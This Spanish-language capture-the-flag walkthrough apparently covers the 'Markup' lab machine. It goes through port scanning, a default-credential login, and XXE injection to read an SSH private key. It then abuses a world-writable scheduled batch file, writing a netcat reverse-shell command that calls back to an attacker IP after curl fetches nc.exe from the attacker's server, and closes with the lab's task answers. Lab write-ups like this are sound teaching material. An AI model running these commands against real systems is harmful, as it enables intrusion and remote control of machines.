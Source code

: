 # Markup

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Reconnaissance (Reconocimiento):** Fase crucial en el proceso de pruebas de penetración, donde se recopila información detallada sobre el objetivo. Este proceso incluye el escaneo de puertos, el análisis de los servicios disponibles, la identificación de vulnerabilidades y la recopilación de datos sobre las configuraciones del sistema. Permite a los atacantes descubrir posibles vectores de entrada.
  * **Apache**: Servidor web que puede ser explotado si no se aplica la configuración adecuada o si no se actualizan sus módulos y componentes.
  * **SSH**: Protocolo seguro para acceder de manera remota a servidores, pero con configuraciones débiles (como claves predeterminadas o contraseñas débiles) puede ser una puerta de entrada.
  * **PHP**: Lenguaje de programación común en aplicaciones web; si no se configura de manera segura, puede ser vulnerable a inyecciones y otros ataques.
  * **Scheduled Job Abuse**: Los trabajos programados mal configurados o sin restricción de privilegios pueden ser explotados para ejecutar comandos maliciosos o obtener acceso a recursos restringidos.
  * **Arbitrary File Upload**: Vulnerabilidad en la que los atacantes cargan archivos maliciosos, como shells PHP, para ejecutar código en el servidor y obtener acceso no autorizado.
  * **XXE Injection**: Ataque de inyección de XML External Entity (XXE) que explota la capacidad de procesamiento de XML para acceder a archivos locales o realizar otros ataques como el denegado de servicio.
  * **Weak Permissions**: Permisos mal configurados en el sistema de archivos pueden permitir a usuarios no autorizados acceder o modificar archivos sensibles, facilitando la escalada de privilegios o la exfiltración de datos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.95.192
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Windows** ya que su **ttl=127**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.95.192
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, los puertos **80** (**HTTP**), **22** (**SSH**) y **443** (**HTTPS**) están abiertos. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales por defecto **admin**:**password**.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos al apartado de **Order** e interceptamos las peticiones. Podemos observar que hay un XML External Entity.

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html#main-attacks" %}

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a leer la clave privada de SSH del usuario.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos la copiamos y le damos permisos para loguearnos.

```bash
chmod 600 id_rsa
ssh -i id_rsa daniel@10.129.95.192
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Buscamos lo que nos preguntan.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este escenario, **job.bat** es un archivo utilizado para programar una tarea en Windows, que ejecuta el comando **wevtutil.exe** para registrar eventos. Este archivo es ejecutado de manera regular como parte de una tarea programada.

El objetivo es actualizar este proceso de **job.bat** de un script de shell simple a un script de PowerShell y verificar los procesos en ejecución con el comando `ps` en PowerShell.

```bash
icacls job.bat
```

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al observar que el `(F)` junto a **Users** en los permisos significa que **todos los usuarios** pueden modificar el archivo **job.bat**, se puede explotar esto para agregar un comando de **netcat** en el archivo. De esta forma, cada vez que la tarea programada se ejecute, la máquina víctima se conectará de vuelta a la máquina atacante.

En nuestra máquina atacante.

```bash
wget https://github.com/vinsworldcom/NetCat64/releases/tag/1.11.6.4/nc64.exe
python3 -m http.server
```

En la máquina víctima.

```bash
curl -o nc.exe http://10.10.16.35:8000/nc.exe
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos para generar una Reverse Shell.

```bash
echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.35 1234 > C:\Log-Management\job.bat
```

Nos ponemos en escucha y recibimos la conexión.

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

#### **Tarea 1**

**¿Qué versión de Apache está corriendo en el puerto 80 del objetivo?**\
**Respuesta:** 2.4.41

#### **Tarea 2**

**¿Qué combinación de nombre de usuario:contraseña inicia sesión con éxito?**\
**Respuesta:** admin:password

#### **Tarea 3**

**¿Cuál es la palabra en la parte superior de la página que acepta la entrada del usuario?**\
**Respuesta:** order

#### **Tarea 4**

**¿Qué versión de XML se utiliza en el objetivo?**\
**Respuesta:** 1.0

#### **Tarea 5**

**¿Qué significa el acrónimo XXE / XEE?**\
**Respuesta:** XML External Entity

#### **Tarea 6**

**¿Qué nombre de usuario podemos encontrar en el código HTML de la página web?**\
**Respuesta:** Daniel

#### **Tarea 7**

**¿Qué archivo se encuentra en la carpeta Log-Management en el objetivo?**\
**Respuesta:** job.bat

#### **Tarea 8**

**¿Qué ejecutable se menciona en el archivo mencionado antes?**\
**Respuesta:** wevtutil.exe
